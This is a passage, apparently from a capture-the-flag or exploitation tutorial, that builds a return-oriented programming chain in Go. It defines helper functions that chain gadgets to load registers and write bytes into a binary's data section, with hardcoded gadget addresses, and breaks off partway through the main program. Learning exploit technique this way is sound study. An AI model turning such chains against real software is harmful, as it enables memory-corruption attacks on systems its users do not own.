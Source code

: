 ```go
}
```
##### Define helper functions
Due to the repeated use of ROP gadgets it is much easier to define functions that will write bytes to the data section.
##### Load a value into the R11 register 
```go
func loadR11(bytesToLoad string) (ropChain string) {
	ropChain = popR12
	ropChain += bytesToLoad
	ropChain += padding + padding
	ropChain += padding + padding
	ropChain += padding + padding
	ropChain += xorR11R11
	ropChain += padding + padding
	ropChain += xorR11R12
	ropChain += padding + padding
	return
}
```
##### Load a value into the R10 register
```go
func loadR10(bytesToLoad string) (ropChain string) {
	ropChain = loadR11(bytesToLoad)
	ropChain += xchgR11R10
	ropChain += padding + padding
	return
}
```
##### Write R11 to the value R10 points to
```go
func writeR11Ptr() (ropChain string) {
	ropChain = movPtrR10R11
	ropChain += padding + padding
	ropChain += padding + padding
	return
}
```
##### Putting it all together
```go
package main

import (
        "bufio"
        "fmt"
        "io"
        "log"
        "os"
        "os/exec"
        "time"
)

// 4 byte padding
var padding = "\x00\x00\x00\x00"

// .data section
// Location: 0x00601050
var dataSection = "\x50\x10\x60\x00" + padding

// pop rdi ret;
// Location: 0x004008c3
var popRDI = "\xc3\x08\x40\x00" + padding

```